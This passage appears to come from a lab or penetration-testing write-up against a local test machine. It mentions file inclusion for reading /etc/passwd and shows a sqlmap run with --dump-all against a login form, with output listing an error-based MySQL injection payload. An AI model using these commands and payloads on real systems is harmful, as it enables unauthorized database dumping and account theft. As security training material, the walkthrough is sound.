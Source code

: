 Some interesting things there, particularly the local/remote file inclusion attacks. These could be used to read PHP files or the /etc/passwd file to get a list of users on the system. I saved the output for later analysis and ran sqlmap to see if it could find any SQL injection attacks. Since sqlmap is very verbose, I've posted only the interesting bits here:

```
# ./sqlmap.py --url "http://192.168.1.155/?page=login.php" --forms --dump-all
 
    sqlmap/1.0-dev (r4766) - automatic SQL injection and database takeover tool
    http://www.sqlmap.org
 
[!] legal disclaimer: usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Authors assume no liability and are not responsible for any misuse or damage caused by this program
 
[*] starting at 17:41:09
 
[17:41:09] [INFO] testing connection to the target url
[17:41:09] [INFO] heuristics detected web page charset 'ascii'
[17:41:09] [INFO] searching for forms
[#1] form:
POST http://192.168.1.155:80/index.php?page=login.php
POST data: user_name=&password=&Submit_button=Submit
do you want to test this form? [Y/n/q] 
> 
Edit POST data [default: user_name=&password=&Submit_button=Submit] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] 
[17:41:22] [INFO] using '/pentest/database/sqlmap/output/192.168.1.155/session' as session file
[17:41:22] [INFO] using '/pentest/database/sqlmap/output/results-04072012_0541pm.csv' as results file
[17:41:22] [INFO] heuristics detected web page charset 'ascii'
[17:41:22] [INFO] testing if the url is stable, wait a few seconds
```

Above, I told sqlmap to dump everything it found if a SQL injection exploit was possible. It recognized the login form and asked if I wanted to submit any specific values. I went with the defaults which are random values.

```
[17:41:36] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection points with a total of 193 HTTP(s) requests:
---
Place: POST
Parameter: password
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: user_name=pSKR&password=Loxw' AND (SELECT 9364 FROM(SELECT COUNT(*),CONCAT(0x3a6d737a3a,(SELECT (CASE WHEN (9364=9364) THEN 1 ELSE 0 END)),0x3a68646c3a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'iUcM'='iUcM&Submit_button=Submit
---
 
do you want to exploit this SQL injection? [Y/n]
```
